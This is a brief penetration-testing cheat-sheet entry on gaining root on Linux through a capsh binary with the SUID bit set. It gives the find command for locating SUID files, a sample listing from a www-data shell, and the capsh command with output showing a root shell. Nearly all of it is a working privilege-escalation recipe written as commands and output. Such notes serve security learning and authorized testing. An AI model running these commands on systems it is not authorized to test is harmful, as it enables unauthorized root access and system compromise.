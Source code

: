 # capsh

Searching for files with the SUID bit set

```bash
find / -perm /4000 2>/dev/null
```

```bash
www-data@50bca5e748b0:/var/www/html$ find / -perm /4000 2>/dev/null

/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

Command

```bash
 capsh --gid=0 --uid=0 --
```

Example

```bash
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --

id
uid=0(root) gid=0(root) groups=0(root), 33 (www-data)
```

{% embed url="https://gtfobins.github.io/gtfobins/capsh/#suid" %}

